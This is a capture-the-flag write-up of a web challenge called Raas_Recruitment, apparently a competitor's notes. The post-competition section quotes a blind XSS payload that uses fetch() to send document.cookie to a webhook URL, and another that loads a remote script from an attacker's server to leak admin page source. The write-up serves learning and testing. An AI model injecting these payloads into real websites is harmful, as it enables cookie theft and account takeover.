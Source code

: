 
# CyberThreatForce CTF 2021

## Web Challs

### Raas_Recruitment
- [ ] Was Solved By Me
#### Points - 180 -> 410
#### Description:
We found the **APT403** recruitment site.
Tried to find a way to exploit their website !

**[](https://recruitment.cyberthreatforce-ctf.com/)**


#### Write-Up - MY OWN
 When entering the Website. We're welcomed with
![](https://i.imgur.com/kMjLk9v.png)
After registration We get a message that the  review team will review the application
![](https://i.imgur.com/qTFY32g.png)
- The site also uses `Content-Disposition: multipart/form-data;`, which is interesting 

- The webpage uses newest Apache, so no exploits for CVEs
![alt](https://github.com/W0rty/WU-CyberThreatForce/raw/main/Images/2.png)
- **There was Hint Given By Administrators** - **It's not SQLi, try different Injection ^^**
	- Not very useful Hint to be honest




#### Notes After The Competition - NOT MY OWN SOLUTION
##### Finding the XSS and Exploiting It
- There actually was a SQL Injection, which was not planned by the authors
- The vulnerability was indeed in `Content-Disposition multipart body`
	- W0rty tried injecting -   `">'>< script>fetch("[https://webhook.site/670142c2-94c0-4669-a9ce-6539d860ce4c/?c="+document.cookie](https://webhook.site/670142c2-94c0-4669-a9ce-6539d860ce4c/?c=%22+document.cookie))< /script>`, which sends the request to his WebHook.
		- Testing XSS with Blind Payloads is way better then just executing `alert()`, because most web pages sanitizes or filters out it. Amazing!
		![alt](https://github.com/W0rty/WU-CyberThreatForce/raw/main/Images/3.png)
		- The last parameter `name=radio` triggered the XSS payload.
	- W0rty tried to leak /admin/index.php source code with this Blind XSS with the following script
	- ![alt](https://github.com/W0rty/WU-CyberThreatForce/raw/main/Images/4.png)
		- But the website was limiting the size of his payload
			- He then put the payload into his VPS, and with this payload ->   `">'>< script src="https://midnightflag.fr/evil.js">< /script>` he invoked this code
				- This though didn't work either. It seemed like the index.php source code that he wanted to extract was too big, so he then used `substr` function to select part of the HTML page:
				-  ![alt](https://github.com/W0rty/WU-CyberThreatForce/raw/main/Images/5.png)
					-  This time it succeeded, and he found out from the source code, that the page has a hidden web-page, called `/bingvxyyaknprxtgwexgldwdcrcqrfacDEV/`

